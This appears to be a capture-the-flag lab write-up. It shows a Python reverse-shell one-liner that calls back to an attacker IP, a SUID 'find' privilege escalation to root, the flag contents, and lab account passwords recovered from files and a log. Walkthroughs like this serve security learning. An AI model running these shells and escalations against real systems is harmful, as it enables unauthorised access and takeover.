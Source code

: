 I used a python reverse shell instead:
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.189.189",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

And we got a shell.
```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

We run linpeas
```
Linux version 4.4.0-142-generic
```

`find` as suid. Looking at gtfobins we find :
```
find . -exec /bin/sh -p \; -quit  
# id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)
```

Here we go, we're root.

We find the first flag `cat /home/stoner/.secret`:
```
You made it till here, well done.
```

In `/home/basterd` there is a `backup.sh` file that copy files over ssh (Prob runned via cron job). Probably could have escalated that way.
We also find some credentials :
```
stoner:superduperp@$$no1knows
```

Which we could have used to get the first flag (that we got as `root` escalated from `www-data`)

I'm guessing that the credentials for basterd are somewhere on the webserver

Root flag `cat /root/root.txt` :
```
It wasn't that hard, was it?
```

We could find the credentials for `basterd` in `/joomla/_test/log.txt`
```
Aug 20 11:16:26 parrot sshd[2443]: Server listening on 0.0.0.0 port 22.
Aug 20 11:16:26 parrot sshd[2443]: Server listening on :: port 22.
Aug 20 11:16:35 parrot sshd[2451]: Accepted password for basterd from 10.1.1.1 port 49824 ssh2 #pass: superduperp@$$
Aug 20 11:16:35 parrot sshd[2451]: pam_unix(sshd:session): session opened for user pentest by (uid=0)
Aug 20 11:16:36 parrot sshd[2466]: Received disconnect from 10.10.170.50 port 49824:11: disconnected by user
Aug 20 11:16:36 parrot sshd[2466]: Disconnected from user pentest 10.10.170.50 port 49824
Aug 20 11:16:36 parrot sshd[2451]: pam_unix(sshd:session): session closed for user pentest
Aug 20 12:24:38 parrot sshd[2443]: Received signal 15; terminating.
```

```
basterd:superduperp@$$
```